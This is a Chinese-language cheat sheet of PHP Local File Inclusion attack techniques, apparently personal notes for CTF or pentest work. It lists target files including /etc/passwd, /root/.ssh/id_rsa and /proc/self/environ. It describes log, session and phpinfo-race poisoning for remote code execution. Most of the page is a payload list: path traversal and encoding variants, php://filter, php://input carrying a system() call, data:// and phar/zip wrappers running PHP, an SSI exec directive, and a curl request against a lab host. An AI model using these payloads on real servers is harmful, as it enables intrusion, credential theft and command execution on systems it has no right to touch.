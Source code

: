 # FLI (Local File Inclusion)
[TOC]
###### tags: `Security` `Web`

# 常見場景
## PHP
+ `include()`
+ `requir()`
+ `include_once()`
+ `require_once()`

# Target
## Config
```
/etc/apache2/apache2.conf
/etc/nginx/nginx.conf
/etc/apache2/sites-available/000-default.conf
/etc/php/php.ini
```

## /proc/*
```
/proc/self/cmdline  // 執⾏時的 Command
/proc/self/exe      // 撈執⾏檔 (可以串 reverse/pwn)
/proc/self/environ  // 環境變數
/proc/self/fd/*     // filedescriptor
```

## 環境變數
- `../../../../proc/self/environ`
    - HTTP_User_Agent 塞 php script

## log file
可配合 RCE Tricks
```
access.log
error.log
```
- apache log
- mysql log
- mail log
- ssh log
    - `/var/log/auth.log`

## RCE Tricks
把 code 傳到目標上後，再進行 LFI
### Session 可控
各個版本的 php ， session 存放位置不同 [stackoverflow](https://stackoverflow.com/questions/4927850/location-for-session-files-in-apache-php)
- 常見存放路徑
```
/var/lib/php/sessions/sess_[session id]
/var/lib/php/session/sess_[session id]
/var/lib/php/
/var/lib/php5/
/var/tmp/
/tmp/
```
    
- `session.upload_progress`
    - PHP預設開啟
    - 用來監控上傳檔案進度
    - 當 `session.upload_progress.enabled` 開啟，可以 POST 在 `$_SESSION` 中添加資料
    - `session.upload_progress.cleanup=on`時，可以透過 Race condition

### 存在 phpinfo
可以在 phpinfo 看到上傳暫存檔的位置，對 server 以 form-data 硬傳檔案，會產生 tmp 檔 & Race condition => LFI Get shell

- Ubuntu 17後，預設開啟`PrivateTmp`，無法利用

### log file 可讀
寫在 `User-Agent / URL`


# Payloads
[GitHub: swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

```
curl http://kioptrix3.com/index.php\?system\=../../../../../etc/passwd%00W
```

## Linux / Unix

- `./index.php`
- `././index.php`
- `.//index.php`
- `../../../../../../etc/passwd`
- `../../../../../../etc/passwd%00`
    - 僅在5.3.0以下可用
    - magic_quotes_gpc需為OFF
- `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- `ＮＮ/ＮＮ/ＮＮ/etc/passwd`
- `/var/log/apache2/error.log`
- `/var/log/httpd/access_log`
- `/var/log/mail.log`
- `/usr/local/apache2/conf/httpd.conf`
- `/etc/apache2/apache2.conf`
- `/etc/apache2/httpd.conf`
- `/etc/apache2/sites-available/000-default.conf`
- `/usr/local/etc/apache2/httpd.conf`
- `/etc/nginx/conf.d/default.conf`
- `/etc/nginx/nginx.conf`
- `/etc/nginx/sites-enabled/default`
- `/etc/nginx/sites-enabled/default.conf`
- `/proc/net/fib_trie`
- `.htaccess`
- `/root/.bash_history`
- `/root/.ssh/id_rsa`
- `/root/.ssh/authorized_keys`

## Windows

- `C:/Windows/win.ini`
- `C:/boot.ini`
- `C:/apache/logs/access.log`
- `../../../../../../../../../boot.ini/.......................`
- `C:/windows/system32/drivers/etc/hosts`

## php://filter

- `php://filter/convert.base64-encode/resource=index.php`
- `php://filter/convert.base64-decode/resource=index.php`
- `php://filter/read=string.rot13/resource=index.php`
- `php://filter/zlib.deflate/resource=index.php`
- `php://filter/zlib.inflate/resource=index.php`
- `php://filter/convert.quoted-printable-encode/resource=index.php`
- `php://filter/read=string.strip_tags/resource=php://input`
- `php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=index.php`
- `php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=index.php`

## php://input

- `?page=php://input`
    - post data: `<?php system("net user"); ?>`
    - 需要有開啟`url_allow_include`，5.4.0直接廢除

## data://

- 條件
    - allow_url_fopen: On
    - allow_url_include: On
- 用法
    - `?file=data://text/plain,<?php phpinfo()?>`
    - `?file=data:text/plain,<?php phpinfo()?>`
    - `?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=`

## zip / phar

- 適用驗證副檔名時
- zip
    - 新建zip，裡頭壓縮php腳本(可改副檔名)
    - `?file=zip://myzip.zip#php.jpg`
- phar
    - ```php
        <?php
            $p = new PharData(dirname(__FILE__).'/phartest.zip',0,'phartest2',Phar::ZIP);
            $x = file_get_contents('./a.php');
            $p->addFromString('b.jpg', $x);
        ?>
    - 構造 `?file=phar://phartest.zip/b.jpg`

# Others
## SSI (Server Side Includes)

- 通常放在`.shtml`, `.shtm`
- Execute Command
    - `<!--#exec cmd="command"-->`
- File Include
    - `<!--#include file="../../web.config"-->`
- Example
    - HITCON CTF 2018 - Why so Serials?